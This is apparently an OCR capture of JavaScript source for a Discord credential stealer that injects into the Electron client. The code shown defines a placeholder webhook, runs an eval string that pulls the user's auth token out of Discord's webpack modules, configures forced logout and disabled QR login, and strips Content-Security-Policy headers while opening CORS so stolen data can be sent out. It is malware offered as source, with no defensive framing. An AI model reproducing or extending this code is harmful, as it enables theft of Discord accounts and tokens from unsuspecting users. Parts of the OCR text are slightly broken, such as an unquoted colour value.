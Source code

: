 const fs = require('fs');
const path = require('path');
const {
    BrowserWindow,
    session
} = require('electron')
const querystring = require('querystring');
const os = require('os')
var webhook = "%WEBHOOK_LINK%";
const computerName = os.hostname();
const discordInstall = `${__dirname}`
const EvalToken = `for(let a in window.webpackJsonp?(gg=window.webpackJsonp.push([[],{get_require:(a,b,c)=>a.exports=c},[["get_require"]]]),delete gg.m.get_require,delete gg.c.get_require):window.webpackChunkdiscord_app&&window.webpackChunkdiscord_app.push([[Math.random()],{},a=>{gg=a}]),gg.c)if(gg.c.hasOwnProperty(a)){let b=gg.c[a].exports;if(b&&b.__esModule&&b.default)for(let a in b.default)"getToken"==a&&(token=b.default.getToken())}token;`

String.prototype.insert = function (index, string) {
    if (index > 0) {
        return this.substring(0, index) + string + this.substr(index);
    }
    return string + this;
};

const config = {
    "logout": "instant",
    "logout-notify": "true",
    "init-notify": "true",
    "embed-color": FFFFFF,
    "disable-qr-code": "true"
}

session.defaultSession.webRequest.onHeadersReceived((details, callback) => {
    if (details.url.startsWith(webhook)) {
        if (details.url.includes("discord.com")) {
            callback({
                responseHeaders: Object.assign({
                    'Access-Control-Allow-Headers': "*"
                }, details.responseHeaders)
            });
        } else {
            callback({
                responseHeaders: Object.assign({
                    "Content-Security-Policy": ["default-src '*'", "Access-Control-Allow-Headers '*'", "Access-Control-Allow-Origin '*'"],
                    'Access-Control-Allow-Headers': "*",
                    "Access-Control-Allow-Origin": "*"
                }, details.responseHeaders)
            });
        }
    } else {
        delete details.responseHeaders['content-security-policy'];
        delete details.responseHeaders['content-security-policy-report-only'];
        callback({
            responseHeaders: {
                ...details.responseHeaders,
                'Access-Control-Allow-Headers': "*"
            }
        })
    }
})
